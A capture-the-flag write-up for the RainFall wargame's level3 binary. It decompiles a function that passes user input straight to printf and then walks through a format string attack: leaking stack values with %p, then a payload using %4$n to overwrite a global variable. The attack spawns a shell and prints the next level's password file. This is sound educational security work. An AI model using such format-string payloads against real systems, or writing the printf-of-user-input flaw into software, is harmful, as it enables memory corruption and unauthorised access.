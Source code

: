 ## Basic analysis

As we see, **level3** binary prints out what is being fed to it via stdin:
~~~shell
./level3 
42 let me pass
42 let me pass
~~~
Let's make a secure copy of the executable and examine it with **Ghidra**. We will discover that **main()** is just calling **v()** and returns.  
**v()** is using **fgets()** to get the input from user, saves it into the premade **char xxx[520]** string and prints it using **printf()**. That is what we see as program execution.
~~~C
void main(void)

{
  v();
  return;
}

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
~~~
That's not all of course - there is condition comparing variable **m** to number **64** (0x40 in hexa). If true, it will let us pass to next level.
Thus, we need to somehow modify the variable m. It is not defined in the scope of v(), nor passed through from main, so it must be a global variable.
We use **gdb**'s "info variables" to get its memaddress: **0x0804988c**

## Format string attack
**printf()** can be utilized for **format string attack** as described [HERE](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). We will force the insertion of value 64 into the **m** variable memory position by using printf's variadic nature.

**Step 1**: we find where in the stack is the variable read by fgets - this will be our way in. We do this by explouting printf to print us the memory:
~~~shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
~~~
**0x41414141** is our "AAAA" input - AAAA is 41414141 in hex - on position number 4.

**Step 2**: We will craft the payload using **%[number]$n** formatter to precisely target the memory position. Variable m needs to be 64 bytes. Its memory address has four, so we add 60 bytes of stuff + the modifier. Like so:
~~~Shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
~~~
